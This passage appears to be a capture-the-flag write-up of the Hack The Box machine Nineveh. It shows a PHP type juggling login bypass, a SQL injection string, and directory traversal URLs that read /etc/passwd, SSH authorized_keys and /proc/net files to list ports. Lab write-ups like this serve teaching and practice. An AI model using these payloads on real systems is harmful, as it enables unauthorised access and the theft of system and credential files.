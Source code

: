 Something that catches my attention is the message that I had found hardcoded in the other web page, so I try some techniques to bypass the panel, like **SQLi**, that don't work. But if with **BurpSuite** I capture the request before it is sent to the server and try a **[Type Juggling attack](https://www.invicti.com/blog/web-security/type-juggling-authentication-bypass-cms-made-simple/){:target="_blank"}** I succeed in my goal and get access as admin to the website.

> **[How Type Juggling Happens](https://mahafuz.medium.com/understanding-type-juggling-in-php-48347f929aa0){:target="_blank"}**: Type juggling occurs when **PHP** encounters operations or comparisons involving variables of different data types. **PHP** will automatically attempt to convert one or both of the variables to a common data type before performing the operation or comparison.

```bash
# http://nineveh.htb/department/login.php
# admin' or 1=1-- -

burpsuite &>/dev/null & disown
```

<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_32.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_33.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_34.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_35.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Once I start interacting with the web service, I notice that in order to access the available resources, their location must be sent through a parameter to the server. If I try to perform a **Directory Traversal**, after adjusting the **URL** I can access the **passwd** system file (there is also a message on the page that could be interpreted as a clue). I can't yet see the contents of the first flag but I can enumerate the system and know all the open ports.

```bash
# http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt

# http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt../../../../../../etc/passwd
# http://nineveh.htb/department/manage.php?notes=files/ninevehNotes/../../../../../../etc/passwd
# :)

# http://nineveh.htb/department/manage.php?notes=files/ninevehNotes/../../../../../../home/amrois/user.txt
# File name too long.     :(
# http://nineveh.htb/department/manage.php?notes=files/ninevehNotes/../../../../../../home/amrois/.ssh/authorized_keys
# http://nineveh.htb/department/manage.php?notes=files/ninevehNotes/../../../../../../proc/net/fib_trie
# http://nineveh.htb/department/manage.php?notes=files/ninevehNotes/../../../../../../proc/net/tcp

cat Data.txt | grep -v local | awk '{print $2}' FS=' ' | awk '{print $2}' FS=':' | sort -u | while read port; do echo -e "\n[!] Port $port --> $((0x$port))"; done
```
